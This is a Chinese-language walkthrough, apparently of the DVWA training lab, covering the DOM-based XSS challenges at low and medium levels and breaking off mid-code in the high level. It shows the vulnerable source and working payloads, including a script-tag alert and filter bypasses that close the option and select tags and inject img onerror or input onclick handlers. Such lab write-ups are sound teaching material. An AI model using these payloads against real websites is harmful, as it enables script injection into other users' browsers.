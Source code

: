 ```html
document.write("<option value='" + lang + "'>" + $decodeURI(lang) + "</option>");
document.write("<option value='' disabled='disabled'>----</option>");
```

这里的`lang`变量是通过`document.location.href`来获取到，并且没有任何过滤就直接URL解码后输出在了`option`标签中

所以我们URL填入payload

```javascript
?default=English <script>alert('XSS')</script>
```



##### DOM型 XSS Medium

**源码**

```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];

    # Do not allow script tags
    if (stripos ($default, "<script") !== false){
        header ("location: ?default=English");
        exit;
    }
}
?>
```

这里对`default`变量进行了过滤，通过`stripos()` 函数查找`<script`字符串在`default`变量值中第一次出现的位置（不区分大小写），如果匹配搭配的话手动通过`location`将URL后面的参数修正为`?default=English`，同样这里可以通过其他的标签搭配事件来达到弹窗的效果。

**payload1**

闭合`</option>`和`</select>`，然后使用`img`标签通过事件来弹窗

```
?default=English</option></select><img src=x onerror=alert('XSS')>
```

**payload2**

直接利用`input`的事件来弹窗

```
?default=English<input onclick=alert('XSS') />
```



##### DOM型 XSS high

**源码**

```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
```